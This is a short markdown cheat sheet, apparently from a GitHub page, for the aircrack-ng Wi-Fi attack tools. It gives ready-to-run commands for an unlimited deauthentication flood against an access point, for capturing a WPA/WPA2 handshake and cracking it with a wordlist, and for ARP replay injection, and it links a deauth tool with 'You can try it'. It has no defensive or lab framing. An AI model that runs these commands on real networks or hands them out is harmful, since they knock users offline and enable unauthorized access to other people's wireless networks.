 # Usage of some tools

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 mon0
(wait for a few seconds)
aircrack-ng -w /path/to/dictionary out.cap
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C wlan0
aireplay-ng -0 10 -a 00:13:10:30:24:9C wlan0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B wlan0
```




